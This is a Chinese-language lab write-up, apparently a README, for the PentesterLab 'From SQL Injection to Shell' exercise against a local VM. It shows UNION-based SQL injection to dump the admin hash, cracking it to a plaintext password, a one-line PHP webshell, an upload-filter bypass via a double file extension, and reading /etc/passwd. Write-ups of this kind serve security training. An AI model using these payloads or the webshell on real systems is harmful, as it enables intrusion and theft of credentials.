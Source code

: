 # 从SQL注入到Shell
![](images/cover.jpg)

# 实验过程

## 一. 环境搭建
- 首先, 在[PentesterLab](https://pentesterlab.com)的**[From SQL Injection to Shell](https://pentesterlab.com/exercises/from_sqli_to_shell)**课程网站上[下载](https://pentesterlab.com/exercises/from_sqli_to_shell/iso)靶机镜像文件`from_sqli_to_shell_i386.iso`
- 使用`VirtualBox`创建虚拟机并为其分配两块网卡
	- 一块NAT网卡用于上网
	- 一块Host-Only网卡用于宿主机的正常访问(或一块Internal网卡用于其他处于同一局域网内的虚拟机的正常访问)
- 开机后, 回车或什么都不做以自动选中**Live**模式
	![](images/boot.png)
- 经过一段短暂的加载滚屏后, 当出现`user@debian:~$`提示符后即表明加载完成
	![](images/user@debian.png)
- 此时执行`ifconfig eth1`以查看Host-Only网卡的IP地址
	![](images/ifconfig_eth1.png)  
	可以看到其IP为`192.168.56.101`
- 在宿主机上访问该IP地址, 若出现网站首页则说明环境搭建成功
	![](images/web-home.jpg)

## 二. 注入过程
- 大致思路: 
	1. 通过SQL注入获取网站管理员用户的账户密码
		1. 找到一个注入点
		2. 通过`order by`来判断查询返回的列数
		3. 通过`union select 1, 2, 3 ...` 来判断被输出的列
		4. 通过`union select`来获取其他信息(如管理员用户的账户密码)
	2. 以网站管理员身份上传webshell

### 1. SQL注入
- 容易发现一个可能的注入点: `http://192.168.56.101/cat.php?id=xxx`
	![](images/id=1.png)
- 先尝试将参数`id`的值改为`2-1`, 然后重新访问. 如果返回的是`id=2`的内容, 则说明此处可能不太容易进行注入; 如果返回的是`id=1`的内容, 则说明此处很有可能是个注入点
- 这里返回的是`id=1`的内容, 说明此处是一个注入点
	![](images/id=2-1.png)
- 将`id`的值改为`1 order by 4`, 发现结果正常返回; 而当其值为`1 order by 5`时, 则返回了SQL的错误信息. 这说明查询的返回结果中有4列
	![](images/order_by_4.png)
	![](images/order_by_5.png)
- 然而此时我们并不知道被输出的"图像名"属于哪一列. 所以我们将`id`改为`1 union select 1, 2, 3, 4`,可以看到名为"2"的图像被查找到了, 说明第二列是图像名, 是可以被输出的信息
	![](images/1234.png)
- 这时, 我们希望获取的内容位于`infomation_schema.columns`表的`table_name, column_name`两个字段中. 由于这里我们只有一列的内容被输出, 所以我们需使用`concat`函数将这两个字符串进行拼接. 因此, 我们将上面的`2`改为`concat(tablename, ':', column_name)`并在末尾添加`from infomation_schema.columns`, 进行访问, 可以看到输出了很多结果:
	![](images/concat.png)
- 在结果中可以发现一个疑似存储用户信息的表`users`
	![](images/users.png)
- 将这两个字段进行筛选, 即得到`admin`与`8efe310f9ab3efeae8d410a8e0166eb2`,显然后者有很大概率是个哈希值. 尝试直接使用其作为密码进行登录, 发现确实不行, 故准备根据哈希值反推原密码
	![](images/admin.png)
- 首先猜想其可能是直接`md5`哈希值. 通过本地工具或在线网站, 容易得到其正是`P4ssw0rd`的直接`md5`哈希值. 尝试使用其作为`admin`的密码进行登录, 成功
	![](images/admin_page.png)

### 2. 上传WebShell
- 首先在本地编写好WebShell并暂时命名为`123.php`

	```php
	<?php
	system($_GET['cmd']);
	```
- 尝试将其通过上传图片的方式进行上传, 发现网站识别出了其为php并且拒绝了此次上传
	![](images/no_php.png)
- 将其更名为`123.png`, 重新上传, 发现上传成功
	![](images/uploaded.png)
- 在管理员页面点击"图片名"`webshell`,进入到该图片的访问页面. 在网页源代码中找到其所在位置为`admin/uploads/123.png`
	![](images/src.png)
- 在地址栏中直接访问该地址, 发现该文件**虽然被正常获取但是却被服务器当成png图片进行了返回, 而没有将其当成php脚本来执行**
	![](images/fail.png)
- 将文件名改为`123.php.fk`重新上传, 发现这次该文件执行正常, `WebShell`成功建立
	![](images/cmd=.png)
- `cmd`参数可以被当成指令正确执行(在Chrome中, 为方便查看输出结果可以使用*显示网页源代码*模式)
	![](images/cmd=cat_etc_passwd.png)
- 至此, `WebShell`上传成功
